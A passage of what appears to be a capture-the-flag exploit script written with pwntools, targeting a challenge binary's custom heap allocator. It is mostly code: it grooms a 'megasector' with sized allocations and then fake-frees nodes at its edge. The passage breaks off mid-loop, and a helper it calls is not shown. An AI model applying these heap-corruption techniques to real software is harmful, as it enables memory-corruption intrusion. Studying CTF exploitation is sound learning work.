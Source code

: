```python
from pwn import *

exe = ELF("./attachments/chall")
context.binary = exe

def main():
    if (args.REMOTE):
        r = remote("localhost", 1337)
    else:
        r = process(exe.path)

    ## Exploit ##
    SLOT_NO = 0        # current slot number
    MS_SIZE = 3855        # number of nodes in a multisector
    GETLINE_INIT_SZ = 120    # initial size of the getline buffer
    FAKE_FREE_NODES = 15    # number of nodes to fake free
    KREAP_SECTOR_SIZE = 512 # size of a sector in the kreap (in bytes)
    NEXT_SECTOR = 0        # next sector number that will be allocated

    # Get near the end of the MS
    # Getline size gets always doubled
    SECTORS = [0] * 20
    SIZES = [0] * 20
    for i in range(20):
        SIZES[i] = (GETLINE_INIT_SZ) * (1 << i) - 1 - 1 # endl + nullbyte
        # add 8 bytes for the block size stored before the data at every allocation
        SECTORS[i] = (SIZES[i] + 1 + 1 + 8 + KREAP_SECTOR_SIZE - 1) // KREAP_SECTOR_SIZE
        print("[+] Iteration {}: {} sectors (to trigger: {})".format(i, SECTORS[i], SIZES[i]))

    SECTORS_ALLOCATED = 0

    # Allocate the biggest size that doesn't trigger the ms overflow
    # Keep the nodes to fake free in the range: [MS_SIZE - FAKE_FREE_NODES * 2, MS_SIZE - FAKE_FREE_NODES]
    info("Filling the megasector with nodes...")
    while SECTORS_ALLOCATED < MS_SIZE - FAKE_FREE_NODES * 2:
        # Find the biggest size that doesn't get over MS_SIZE - FAKE_FREE_NODES
        for i in range(20):
            if SECTORS_ALLOCATED + SECTORS[i] > MS_SIZE - FAKE_FREE_NODES:
                break
        i -= 1
        warn("Allocating {} sectors".format(SECTORS[i]))

        store_data(r, SLOT_NO, b"A" * (SIZES[i]))
        SLOT_NO += 1

        SECTORS_ALLOCATED += SECTORS[i]
        NEXT_SECTOR += sum(SECTORS[:i+1])

    warn("SECTORS_ALLOCATED: {}".format(SECTORS_ALLOCATED))
    FAKE_FREE_NODES = MS_SIZE - SECTORS_ALLOCATED

    # Try to free nodes on the edge of the MS, the chunk has to be long at least ~20 nodes
    info("Fake freeing {} nodes on the edge of the megasector...".format(FAKE_FREE_NODES))

    # Allocate as many nodes as the end of the MS - 1
    for i in range(FAKE_FREE_NODES - 1):
        store_data(r, SLOT_NO + i, b"A")
        NEXT_SECTOR += 1

    # Fake free for each allocated
    for i in range(FAKE_FREE_NODES - 1):
        store_data(r, SLOT_NO + FAKE_FREE_NODES - 1, b"A")
```